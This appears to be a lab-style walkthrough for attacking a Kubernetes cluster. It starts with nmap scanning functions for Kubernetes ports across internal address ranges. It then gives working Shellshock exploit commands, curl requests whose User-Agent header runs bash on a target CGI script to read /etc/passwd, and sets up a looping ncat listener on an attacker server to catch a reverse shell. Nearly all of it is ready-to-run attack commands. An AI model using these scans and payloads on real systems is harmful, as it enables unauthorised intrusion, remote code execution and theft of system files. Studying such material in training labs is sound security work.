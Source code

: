 Add these functions to your environment so that you can scan for open ports

``` sudo apt-get update
sudo apt-get install nmap
nmap-kube () 
{ 
nmap --open -T4 -A -v -Pn -p 443,2379,4194,6782-6784,6443,8443,8080,9099,10250,10255,10256 "${@}"
}
nmap-kube-discover () {
local LOCAL_RANGE=$(ip a | awk '/eth0$/{print $2}' | sed 's,[0-9][0-9]*/.*,*,');                                                                  
local SERVER_RANGES=" ";
SERVER_RANGES+="10.0.0.1 ";
SERVER_RANGES+="10.0.1.* ";
SERVER_RANGES+="10.*.0-1.* ";
nmap-kube ${SERVER_RANGES} "${LOCAL_RANGE}"
}
nmap-kube-discover
```

Part 1: compromise via shellshock

Useful commands for finding open ports:

```
command nmap -Pn -T4 -F --open <host-ip>
# scanning every port, more is open
command nmap -Pn -T4 --open <host-ip> -p 0-65535
command nmap -Pn -T4 --open <host-ip> -p 30081
```

1. Check shellshock

   ```
   curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "cat /etc/passwd"'
   ```

2. create a control server to use as a reverse shell endpoint

   this requires any node with a public IP (a digital ocean server would do)

   ```
   # replace `controlplane` with a host that you can SSH to
   ssh controlplane ip a
   
   # replace 1234 with a port that is routable on the host you have SSH'd into
   while :; do ssh controlplane ncat --listen 1234 --output $(mktemp /tmp/hack-XXXX.log); done
   ```

3. shellshock in

   

   ```
    curl http://<host_ip>:30081/cgi-bin/stats  -H 'user-agent: () { :; }; echo; echo; 2>&1 /bin/bash -c "echo hello"'
   ```

